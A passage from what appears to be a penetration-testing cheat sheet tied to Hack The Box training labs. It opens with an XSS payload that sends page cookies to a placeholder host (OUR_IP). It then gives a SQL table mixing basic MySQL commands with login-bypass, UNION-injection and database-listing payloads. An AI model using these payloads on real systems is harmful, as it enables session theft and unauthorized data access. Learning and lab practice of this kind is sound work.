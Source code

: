 | `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |

# SQL injection

| Command | Description |
| --- | --- |
| `mysql -u root -h docker.hackthebox.eu -P 3306 -p` | login to mysql database |
| `SHOW DATABASES` | List available databases |
| `USE users` | Switch to database |
| `CREATE TABLE logins (id INT, ...)` | Add a new table |
| `SHOW TABLES` | List available tables in current database |
| `DESCRIBE logins` | Show table properties and columns |
| `INSERT INTO table_name VALUES (value_1,..)` | Add values to table |
| `INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)` | Add values to specific columns in a table |
| `UPDATE table_name SET column1=newvalue1, ... WHERE <condition>` | Update table values |
| `SELECT * FROM table_name` | Show all columns in a table |
| `SELECT column1, column2 FROM table_name` | Show specific columns in a table |
| `DROP TABLE logins` | Delete a table |
| `ALTER TABLE logins ADD newColumn INT` | Add new column |
| `ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn` | Rename column |
| `ALTER TABLE logins MODIFY oldColumn DATE` | Change column datatype |
| `ALTER TABLE logins DROP oldColumn` | Delete column |
| `SELECT * FROM logins ORDER BY column_1` | Sort by column |
| `SELECT * FROM logins ORDER BY column_1 DESC` | Sort by column in descending order |
| `SELECT * FROM logins ORDER BY column_1 DESC, id ASC` | Sort by two-columns |
| `SELECT * FROM logins LIMIT 2` | Only show first two results |
| `SELECT * FROM logins LIMIT 1, 2` | Only show first two results starting from index 2 |
| `SELECT * FROM table_name WHERE <condition>` | List results that meet a condition |
| `SELECT * FROM logins WHERE username LIKE 'admin%'` | List results where the name is similar to a given string |
| `admin' or '1'='1` | Basic Auth Bypass |
| `admin')-- -` | Basic Auth Bypass With comments |
| `' order by 1-- -` | Detect number of columns using order by |
| `cn' UNION select 1,2,3-- -` | Detect number of columns using Union injection |
| `cn' UNION select 1,@@version,3,4-- -` | Basic Union injection |
| `UNION select username, 2, 3, 4 from passwords-- -` | Union injection for 4 columns |
| `SELECT @@version` | Fingerprint MySQL with query output |
| `SELECT SLEEP(5)` | Fingerprint MySQL with no output |
| `cn' UNION select 1,database(),2,3-- -` | Current database name |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | List all databases |